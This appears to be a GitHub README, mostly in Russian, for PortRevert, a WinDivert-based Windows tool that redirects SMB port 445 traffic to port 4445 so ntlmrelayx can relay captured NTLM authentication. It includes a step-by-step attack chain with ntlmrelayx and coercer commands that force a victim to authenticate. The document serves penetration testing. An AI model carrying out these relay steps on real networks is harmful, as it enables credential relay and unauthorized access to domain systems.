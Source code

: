 # PortRevert

SMB port redirector for NTLM relay attacks without stopping the LanmanServer service.

## 🎯 Описание

Этот инструмент перехватывает SMB трафик на порт 445 и перенаправляет его на порт 4445, позволяя использовать ntlmrelayx без остановки службы LanmanServer (которая слушает порт 445).

## 🚀 Возможности

- Перехват всего TCP трафика на порт 445
- Перенаправление на порт 4445 для ntlmrelayx
- Автоматическая обработка двунаправленного трафика (запросы/ответы)
- Корректная очистка драйвера при завершении
- Поддержка как x86, так и x64 архитектур

## 📋 Требования

- Windows 7/8/10/11
- Права администратора
- Visual Studio (для сборки)
- WinDivert 2.2+

## 🛠️ Сборка

1. Установите Visual Studio
2. Скачайте WinDivert 2.2+ с [официального сайта](https://reqrypt.org/windivert.html)
3. Откройте проект в Visual Studio
4. Настройте пути к библиотекам WinDivert
5. Соберите проект (Release x64)

## 🚀 Использование

### Запуск перенаправления:
```cmd
PortRevert.exe
```
###Выгрузка драйвера:
```cmd
PortRevert.exe uninstall
```
## 🎯 Пример использования для NTLM relay
### 1. Запустите PortRevert от имени администратора:
```cmd
PortRevert.exe
```
### 2.  Запустите ntlmrelayx на порту 4445:
```cmd
ntlmrelayx.exe -smb-port 4445 -smb2support -debug
```
### 3. Принудите жертву к аутентификации любым способом, например с помощью coercer:
```zsh
coercer coerce -d cs.org -t dc1 -u test -p 'Password123!' -l pc3 --always-continue

(PortRevert должен быть запущен на хосте-слушателе, в данном случае - pc3)
```
## 🔄 Как это работает
```
Жертва -> Порт 445 
    ↓ (перехват PortRedirector)
Жертва -> Порт 4445 -> ntlmrelayx
    ↓ (ответы)
ntlmrelayx -> Порт 4445 
    ↓ (перенаправление обратно)
ntlmrelayx -> Порт 445 -> Жертва
```

## ⚠️ Важные замечания
- Требуются права администратора
- Не останавливает службу LanmanServer
- Работает с внешним и локальным SMB трафиком
- Файлы WinDivert.sys и WinDivert.dll должны находиться рядом с exe
## 🧹 Очистка

После использования запустите:
```cmd
PortRevert.exe uninstall
```
Это остановит и удалит драйвер WinDivert из системы.
## 📄 Лицензия

Этот проект распространяется по лицензии MIT.
## 🙏 Благодарности

- [WinDivert](https://reqrypt.org/windivert.html) - за отличную библиотеку перехвата пакетов
- Сообществу пентеста за вдохновение
## 🔒 Дисклеймер

Этот инструмент предназначен только для образовательных целей и и всех тех, кто работает в области пентеста и этичного хакинга. Используйте ответственно!
